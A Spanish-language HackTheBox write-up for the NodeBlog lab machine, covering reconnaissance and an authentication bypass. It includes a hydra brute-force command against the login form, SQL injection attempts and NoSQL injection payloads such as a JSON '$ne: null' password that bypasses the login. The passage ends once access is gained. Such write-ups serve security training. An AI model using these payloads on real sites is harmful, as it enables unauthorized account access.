

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/hackthebox/nodeblog/index.html · generator: mkdocs

# NodeBlog

![](../../assets/img/Pasted_image_20260603122649.png)

- Launchpad -> Focal

- 5000: node.js

![](../../assets/img/Pasted_image_20260603122830.png)

![](../../assets/img/Pasted_image_20260603122936.png)

- Encontramos un login
Si probamos con admin:admin vemos que hay posibilidad tanto de enumeración de usuarios como de bruteforcear la passwd porque cambia el mensaje de respuesta según las credenciales

![](../../assets/img/Pasted_image_20260603123042.png)

Intentamos
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.96.160 -s 5000 http-post-form "/login:user=admin&password=^PASS^:F=Invalid" -V
```

Pero no encuentra nada

- Gobuster -> nada a priori en /

-
```bash
whatweb http://10.129.96.160:5000
```

http://10.129.96.160:5000 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, IP[10.129.96.160], Script[JavaScript], Title[Blog], X-Powered-By[Express], X-UA-Compatible[IE=edge]

- Nada por UDP

- Buscamos vulnerabilidades de Express que es el backend usado por node.js según wapalizer

![](../../assets/img/Pasted_image_20260604160936.png)

Probamos con varios pero no encontramos nada a priori

- Como sabemos que admin es un usuario válido vamos a intentar algúnas inyecciones sql
```bash
admin' or 1=1-- -
admin' or sleep(5)-- -
```

- Nada, no bypaseamos el login ni tarda 5s en cargar la pag por lo que no parece inyectable a priori

- buscamos en *payloadallthethings* y filtramos por sql para indagar mas
Vamos a probar **NoSQLInyection**
Abrimos burp para checkear si varía el *content-lenght* de 1040, eso significará que la respuesta ha cambiado y que no es el mensaje de usuario/contraseña inválidas que suele mostrar
- Probamos a cambiar el cuerpo de la petición post con las NoSQLi
```bash
user=admin&password[$ne]=caca
```

La query es que la *password* sea distinta ([$ne]) a "caca", por lo cual es un posible bypass
- No lo pilla
- Probamos con la misma query pero en json
1. Cambiamos el Content-Type a *application/json*
2. Probamos si la data se puede tramitar por JSON
Incluimos en el cuerpo
```bash
{"user": "admin", "password": "caca"}
```

Vemos que sí que la acepta porque nos devuelve la misma respuesta

![](../../assets/img/Pasted_image_20260604170703.png)

3. Tramitaremos la query de bypaseo por json que viene en el recurso de *payloadallthethings*

![](../../assets/img/Pasted_image_20260604171546.png)

```json
{"user": "admin", "password":{"$ne": null}}
```

![](../../assets/img/Pasted_image_20260604171717.png)

Conseguimos bypassear y obtenemos el login

![](../../assets/img/Pasted_image_20260604171748.png)
